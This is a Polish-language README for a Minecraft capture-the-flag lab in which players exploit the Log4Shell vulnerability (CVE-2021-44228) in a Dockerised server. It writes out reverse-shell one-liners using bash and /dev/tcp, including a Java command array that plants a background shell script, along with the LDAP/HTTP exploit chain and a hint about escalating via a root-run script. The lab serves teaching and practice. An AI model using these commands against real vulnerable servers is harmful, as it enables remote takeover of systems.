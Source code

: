 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Wymagania
- Docker
- Java (do uruchomienia clienta Minecrafta - jeśli jej nie masz, pobierz i zainstaluj)
- Minecraft Launcher
- NetCat (użyj WSL lub zainstaluj na Windowsie)

## HARD - Ogólny zarys postępowania
1. Uruchom server docker z serverem Minecraft:
   - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
2. Wykorzystaj podatność CVE-2021-44228 do uzyskania reverse shell
   - napoczęty `marshalsec/Dockerfile` może ci ułatwić,
   - tak samo masz `codehttp/` gdzie manipulować trzeba tylko linijką gdzie ustawia zmienną `cmd`,
3. Interesujący cię plik jest umieszczony gdzieś na systemie,
4. Rozejrzyj się po plikach w folderze `/server`
5. Po odczytaniu flagi zapraszamy do wspólnej gry :)


## EASY - Krok po kroku

### 0. Uruchamianie SKLauncher
   1. Otwórz SKLauncher, który również znajduje się w repozytorium.
   2. Wybierz tryb offline.
   3. Kliknij '+' obok "Installations Manager".
   4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### 1. Uruchomienie serwera Minecraft
   1. **Uruchom Minecraft'a:**
      - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
      - po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

### 2. Wykorzystaj podatnośc CVE-2021-44228 do uzyskania reverse shell


<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

   1. **Uruchom serwer LDAP:**
      - `cd marshalsec`
      - znając schemat działania *JNDI* ustaw w Dockerfile adres IP i PORT gdzie będzie wystawiony kod do wykonania na serwerze Minecrafta,
      - `docker build . -t marshal`
      - `docker run -p 1389:1389 -ti marshal`

   2. **Przygotuj kod do połączenia się z reverse shell i wystaw go na serwerze http:**
      - przygotuj sobie `netcat` na hoście (swoim komputerze), może na wsl, a może zainstaluj na Windowsie,
      - potem uruchamiasz nasłuchiwanie komendą `nc -l [port]`,
      - cd `codehttp/`
      - ten kontener służy do serwowania statycznych plików po http,
      - edytuj linijkę w pliku `Log4jRCE.java`,
         1. nie uruchamiaj komendy bezpośrednio, lecz stwórz plik, a potem uruchom go bashem,
         2. dodaj " &" na końcu linijki w pliku gdzie uruchamiasz netcata, dzięki temu zostanie on uruchomiony w tle, a server Minecrafta nie scrashuje,
         3. podpowiedzi:
            1. `bash -c "..."`,
            2. `echo "komenda > plik.sh" ; bash plik.sh`,
            3. `nohup`,
            4. `bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1`,
            5. ` &`,
         4. 
            <details>
            <summary><b> Pokaż komendę:</b></summary>

            ```java
            String[] cmd = {"bash", "-c", "echo 'nohup bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1 &' > /server/script.sh; bash /server/script.sh"};
            ```

            </details>
         .4 
      - podczas budowania obrazu zostanie ten plik do niego skopiowany, a następnie skompilowany,
      - a po uruchomieniu kontenera, będzie serwowany plik "Log4jRCE.class" na porcie *:8888* tego kontenera,
      - zbuduj obraz: `docker build . -t codehttp`,
      - uruchom kontener: `docker run -p 8888:8888 -ti codehttp`,

   3. **Interesujący cię plik jest umieszczony gdzieś na systemie:**
      - 


## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

uzyskania Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```

### Konfiguracja EOL w VSCode
```sh
# Jeśli pracujesz na Windowsie, konieczna może okazać się zmiana EOL - End Of Line:
- Otwórz `Minecraft-Log4j-Exploit/server/start_server.sh`.
- Użyj `CTRL + SHIFT + P`.
- Zmień `EOL sequence`.
```

## Przydatne komendy 

### Docker
```sh
docker build
docker run
docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune
```

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft](https://www.minecraftxl.com/deep-sea-map/) od BlockWorks


TODO:
lf w starcie

wejsc na server mc wpisac komende

jak zatrzymać bash -uzyskania reverse shell?

echo to wbudowana funkcja basha, a nie żadna binarka 

allready allocated port: docker desktop delete container, 

find / -name "*flag*" 2>/dev/null

